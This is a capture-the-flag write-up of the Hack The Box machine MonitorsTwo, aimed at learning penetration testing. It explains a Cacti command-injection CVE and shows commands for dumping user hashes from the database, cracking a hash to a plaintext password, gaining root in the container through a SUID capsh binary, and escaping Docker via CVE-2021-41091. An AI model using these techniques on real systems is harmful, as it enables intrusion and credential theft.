

# HTB MonitorsTwo WriteUp

MonitorsTwo was the first live box that I did so had to do it without any help. It was an easy linux box with some container escaping and Docker privelege escalation. Great fun!

## Enumeration

A goal of mine has been to enumerate fully before going down rabbit holes, even in these CTF situations. This is the methodology that is going to help me in real world scenarios so I need to get the practice down now.

Started out with some nmap and found 80 and 22. Classic combo.

```bash
nmap -p- 10.10.11.211 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-18 20:38 EDT
Nmap scan report for 10.10.11.211
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
cat monitorstwo.nmap
# Nmap 7.94 scan initiated Fri Aug 18 20:47:44 2023 as: nmap -sC -sV -vv -p 80,22 -oA monitorstwo 10.10.11.211
Nmap scan report for 10.10.11.211
Host is up, received conn-refused (0.098s latency).
Scanned at 2023-08-18 20:47:44 EDT for 9s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 4F12CCCD3C42A4A478F067337FE92794
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 18 20:47:53 2023 -- 1 IP address (1 host up) scanned in 9.21 seconds
```

From this I noted we are on `ubuntu`, running `nginx 1.18.0` and based on the server header this is a Cacti server. I am not familiar so the next step is to go the the site and check it out.



Here we have a login page and `cacti 1.2.22`.

I also took a look at the HTTP headers.

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 19 Aug 2023 17:57:06 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 13679
Connection: close
X-Powered-By: PHP/7.4.33
Last-Modified: Sat, 19 Aug 2023 17:57:06 GMT
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: default-src *; img-src 'self'  data: blob:; style-src 'self' 'unsafe-inline' ; script-src 'self'  'unsafe-inline' ; frame-ancestors 'self'; worker-src 'self' ;
P3P: CP="CAO PSA OUR"
Cache-Control: no-store, no-cache, must-revalidate
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Vary: Accept-Encoding
```

We do have something new here in `PHP 7.4.33`.

## Foothold

Now I can start analyzing the versions that we got. Cacti seems the most interesting since I know from experience the others will not likely have anything.

Searching on cacti's release page, it looks like release [1.2.23](https://www.cacti.net/info/changelog) fixed [CVE-2022-46169](https://nvd.nist.gov/vuln/detail/CVE-2022-46169). A critical bug that allows unauthenticated command injection.

I found two POCs on GitHub:
- https://github.com/0xf4n9x/CVE-2022-46169
- https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit

For actual exploitation I opted to use ariyaadinatha's but the other repo really helped shed some light as to what was going on.

If we set the x-forwarded-for header to something like 127.0.0.1, we can bypass the authentication mechanisms and then brute force the host_id and local_id paramaters, which are simple integers. Once we get a response body back, we know we have the right values and we can put the payload in the poller_id which is where it will be executed.

This is vulnerable because remote_agent.php is veryifying IP addresses in the poller table, returning true if something is found. If we have the right host and local id's then poller_item will execute via polldata and call proc_open which executes code.

## PrivEsc 

After landing on the box I am immediately greeted with the smiling face of a docker container. We have two options here escape or elevate privileges within.

I ran `linpeash.sh` to get a lay of the land and two things stood out to me, one the entrypoint.sh file that was connecting to a database, and the capsh binary that had a suid bit and was lighting up as a privesc vector.

I looked at entrypoint.sh and saw some db users and passwords and ran the connection string and found could show tables.

```bash
mysql --host=db --user=root --password=root cacti -e "show tables"
```

I saw a table called user_auth and since I have ssh access, wondered if I could find some users.

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * from user_auth"
```

This gave me some users and hashes.

```bash
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview    graph_settings  login_optspolicy_graphs    policy_trees    policy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb           on      on      on      on      on      2       1       1 11       on      -1      -1      -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1               -1      -1      -1        00       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      on      on      on      1       1       1 11       on      -1      -1              on      0       0       2135691668
```

After some digging, I identified these as `bcrypt` hashes.

I threw them in hashcat and got a hit.

```bash
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

This logged in as the marcus user over ssh.

## PrivEsc Again

Once again I ran `linpeas.sh` and my friend marcus has mail!

```bash
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

I also briefly thought there was an active tmux session. I uses pspy to look at some processes. But nothing else of note really.

I decided to look at `CVE-2021-41091` first and confirmed our docker version had not been patched. I then found some articles online that talked about it and started beating my head because it looked like I needed root in the container, which I did not have.

Resources:
- https://github.com/UncleJ4ck/CVE-2021-41091
- https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure

This is when I had to reset and come back to `capsh`. That binary in our container had a SUID bit.

Looking on gtfobins, it would give us a root shell in the container.

```bash
capsh --gid=0 --uid=0 --
```

Now we could run the POC for `CVE-2021-41091`.

```bash
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

Inside of the container we did need a SUID bit on the bash binary. This is why root was a prereq.

This works because the docker data directory `/var/lib/docker` has improper file permissions in this version of Docker. Unprivileged users can run binaries in this directory, such as bash with a suid bit, or other binaries with extended permissions that may allow them to escalate.

Now we have a root shell that can access the host file system!

```sh
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# whoami
root
```
 
